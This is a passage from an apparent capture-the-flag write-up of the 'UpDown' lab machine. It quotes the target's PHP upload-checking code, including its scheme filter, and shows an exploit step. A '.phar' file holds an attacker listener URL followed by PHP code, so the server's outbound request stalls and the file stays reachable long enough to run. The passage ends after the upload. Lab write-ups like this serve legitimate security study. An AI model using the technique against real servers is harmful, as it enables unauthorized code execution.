After, it gets the file content using `file_get_contents()`, then it calls `isitup()` for each line.  
When it is done processing the file it deletes it using `@unlink()`.

```php
# Read the uploaded file.
$websites = explode("\n",file_get_contents($final_path));
foreach($websites as $site){
        $site=trim($site);
        if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
                $check=isitup($site);
                if($check){
                        echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
                }else{
                        echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
                }
        }else{
                echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
        }
}
# Delete the uploaded file.
@unlink($final_path);
```

#### **Testing File upload**

We created a file `00.phar`:

```php
http://10.10.14.95:9000/
<?php phpinfo(); ?>
```

The first line is used to prevent the deletion of our uploaded file before executing it.  
When the server sends a request to our nc server using the funcion `isitup()`, it will wait for a response which will never arrive,
we can use this time to browse to our uploaded file `http://dev.siteisup.htb/uploads/<md5(time)>/00.phar` to execute it.

> note: http://dev.site.htb/uploads/ is listable.

We setup a listener on port `9000`

![](/assets/updown/nc-9000.png)

Then we uploaded `00.phar`
